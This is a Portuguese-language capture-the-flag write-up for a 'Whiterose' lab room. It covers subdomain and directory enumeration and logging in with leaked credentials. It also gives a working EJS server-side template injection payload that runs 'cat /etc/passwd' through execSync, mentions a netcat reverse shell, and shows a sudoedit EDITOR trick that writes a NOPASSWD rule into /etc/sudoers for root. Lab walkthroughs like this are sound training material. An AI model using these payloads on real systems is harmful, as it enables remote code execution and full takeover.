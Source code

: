 # _**Whiterose CTF**_
![](rose.jpg)

## _**Enumeração**_
Primeiro, vamos tomar nota do que a sala nos diz
* _You will need these:_ Olivia Cortez:olivi8

Segundo, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos um website  
Investigando, temos que alterar o arquivo _/etc/hosts_ com o IP e nome do site  
Alterando, visitamos o site e temos apenas uma mensagem  
Vamos tentar realizar uma enumeração de subdomínio e de diretórios  
> ```bash
> gobuster dir --url cyprusbank.thm -w ../seclists/Discovery/Web-Content/common.txt
> ```
Temos apenas _index.html_ de retorno  
> ```bash
> ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://cyprusbank.thm -H "Host:FUZZ.cyprusbank.thm" -fw 1
> ```
![](ffuf_return.jpg)

Temos 2 domínios  
Vamos investigar eles  
Uma página de login, vamos tentar as credenciais dadas no início da sala  

![](login_success.jpg)

Buscando pelo nome **Tyrell**, encontramos um valor, mas seu número está apagado  
Procurando por outras maneiras, uma nova tentativa com <mark>Gobuster</mark> foi feita
> ```bash
> gobuster dir --url admin.cyprusbank.thm -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Vamos investigar estes diretórios  
Um deles chama a atenção: **messages**  
Parece que podemos alterar a URL para verificar antigas mensagens  

![](messages.jpg)

Temos credenciais!  

![](creds.jpg)

Realizando login na conta de **Gayle Bev**, podemos verificar o número de **Tyrell**  

## _**Ganhando acesso**_
Para esta parte, fiquei perdido por um tempo, até que descobri o seguinte ataque  
Primeiro, nota-se que ao trocar a senha de algum usuário, ela é totalmente exibida no site 
Sugerindo que o site é vulnerável a **SSTI (Server Side Template Injection)**  
O SSRI pode ser usado para LFI e RCE  
Atualizaremos a senha novamente e capturaremos a solicitação no <mark>burp suite</mark>  
Após iniciarmos a solicitação, a enviaremos ao repetidor  
Como teste, adicionei um 0 ao final de password (password0) e cliquei em enviar  
Na resposta, vemos o erro "settings.ejs"  

![](esj_error.jpg)

Pesquisando sobre o erro, temos o seguinte  

![](gpt_explain.jpg)

Pedimos para gerar um _payload_: <%= require("fs").readFileSync("/etc/passwd") %>  
Vamos testar  
Não funcionou  
Procurando no google por _payloads_ para este tipo de erro, encontramos [este site](https://eslam.io/posts/ejs-server-side-template-injection-rce/)  
Nosso novo _payload_: &settings[view options][outputFunctionName]=x;return global.process.mainModule.require('child_process').execSync('cat /etc/passwd');//  

![](payload_return.jpg)

Vamos tentar obter um _reverse shell_  
Primeiro, visitamos o site [reverseshells](reverseshells.com)  
Criamos um _payload_ com _URL encode_  
Ligamos nosso ```netcat``` e conseguimos!  

![](reverse_shell.jpg)

Vamos melhorar essa _shell_ com: python3 -c 'import pty, os; pty.spawn("/bin/bash")'  

## _**Escalando privilégios**_
Primeiro, vamos começar com alguns comandos básicos como ```sudo -l```  

![](sudo_l.jpg)

Tentando escalar privilégios com os comandos abaixo e não funcionou
> ```bash
> export EDITOR="bash"
> sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
> sudo EDITOR=bash sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
> sudo -E sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
> ```
Procurando pela versão de ```sudoedit```, temos o seguinte  

![](sudo_edit_priv.jpg)

O primeiro passo para explorar isso é definir a variável EDITOR para gravar em um arquivo crítico ao qual somente o root deve ter acesso  
Executando os comandos abaixo, nos permite ganhar privilégios em seguida  
> ```bash
> export EDITOR="vim -- /etc/sudoers"
> sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
> ```
![](edit.jpg)

Adicione a seguinte linha: ```web ALL=NOPASSWD: ALL```  
Depois de executar o segundo comando, o arquivo será aberto para edição  
Estava extremamente difícil editar e navegar  
Dando _enter_ algumas vezes e finalmente conseguindo sair do editor, conseguimos _root_ com ```sudo su```  
Basta ir atrás das flags!
